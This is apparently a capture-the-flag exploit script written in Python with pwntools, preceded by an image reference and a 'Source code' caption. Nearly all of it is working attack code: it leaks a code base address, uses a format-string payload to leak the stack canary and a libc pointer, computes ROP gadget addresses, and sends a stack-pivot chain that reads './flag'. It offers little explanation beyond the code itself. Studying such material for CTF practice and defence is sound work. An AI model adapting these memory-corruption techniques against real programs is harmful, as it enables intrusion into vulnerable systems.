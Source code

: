 ```Python

elf = ELF(elf_path)
libc = ELF(libc_path)
printf_plt = elf.plt['printf']
system_plt = 0x103f88
setvbuf_plt = 0x103fb0
leave_ret = 0x101676

payload = b'a' * 0x17
girlfriend(payload)
p.recvuntil(b'a\n')
code_base = u64(p.recv(6) + b'\x00\x00') - 0x1015c7
log.success('code_base: ' + hex(code_base))
flag = code_base + 0x1021ef

payload = b'-%15$p-%37$p-'.ljust(0x30, b'a')
payload += p64(0x100)
Reply(payload)
p.recvuntil(b'name:\n')
recv = p.recv().split(b'-')
canary = int(recv[1], 16)
_rtld_global = int(recv[2], 16) - 128
log.success('canary: ' + hex(canary))
libc_base = _rtld_global - libc.sym['__libc_start_main']
pop_rdi = libc_base + 0x2a3e5
pop_r12 = libc_base + 0x35731
pop_rbx = libc_base + 0x35dd1
pop_rsi = libc_base + 0x2be51
pop_rdx_r12 = libc_base + 0x11f2e7
xor_r10_mov_eax_r10 = libc_base + 0x1498f8
system_addr = libc_base + libc.sym['system']
read_addr = libc_base + libc.sym['read']
openat_addr = libc_base + libc.sym['openat']
write_addr = libc_base + libc.sym['write']
mmap_addr = libc_base + libc.sym['mmap']
sendfile_addr = libc_base + libc.sym['sendfile']
mprotect_addr = libc_base + libc.sym['mprotect']
log.success('libc_base: ' + hex(libc_base))
log.success('pop_rdi: ' + hex(pop_rdi))

payload = b'a' * (0x28 - 0x1)
girlfriend(payload)
p.recvuntil(b'a\n')
stack = u64(p.recv(6) + b'\x00\x00') - 0x20
log.success('stack: ' + hex(stack))

payload = b'./flag'.ljust(0x30, b'a')
payload += p64(0x100)
Reply(payload)
gadgets = [0xef4ce]

payload = flat([
    code_base + 0x104060,
    code_base + 0x101749,
    code_base + 0x104060,
    pop_rdx_r12, 0, b'./flag\x00\x00',
    code_base + leave_ret,
    canary,
    stack - 0x40,
    code_base + leave_ret,
])
choose(1)
p.sendafter(b'her?\n', payload)
```